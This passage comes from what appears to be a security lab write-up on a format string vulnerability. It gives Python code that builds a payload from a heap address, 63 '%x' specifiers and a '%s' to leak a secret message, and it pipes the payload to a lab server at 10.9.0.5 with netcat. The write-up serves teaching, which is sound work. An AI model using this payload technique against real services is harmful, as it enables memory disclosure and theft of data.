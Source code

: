 ```python
  f.write(content)
```

```bash
python3 badfile.py
cat badfile | nc -w2 10.9.0.5 9090
```

![task-2-a](https://github.com/iukadike/blog/assets/58455326/91b01fc5-faeb-43e6-88de-2eb0701e58da)


After a number of trials and errors, I was able to determine that the offset of our input from the beginning of the stack is 64. Thus, it will take 64 `%x` to print out the first four bytes of my input.

#### Heap Data

There is a secret message that is stored on the heap when the program runs. We know that the memory address of this secret message on the heap is `0x080b4008`. In order to print out the value stored in this memory address, we will use `0x080b4008` as the first value in our input, pad it with 63 `%x` so that our program will not crash, and then print out the secret message with `%s` to complete the offset.

Our initial code will be modified to achieve this.

```python
#!/usr/bin/python3
import sys

# Start input with the memory address of secret message
content = (0x080b4008).to_bytes(4,byteorder='little')

# Append format specifiers to prevent the program from crashing
content += ("_%x" * 63).encode('latin-1')

# print out the value stored in 0x080b4008
content += ("_%s").encode('latin-1')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```

```bash
python3 badfile.py
cat badfile | nc -w2 10.9.0.5 9090
```

![task-2-b](https://github.com/iukadike/blog/assets/58455326/1349d122-2a47-4d5d-b88f-bc1abeb29914)
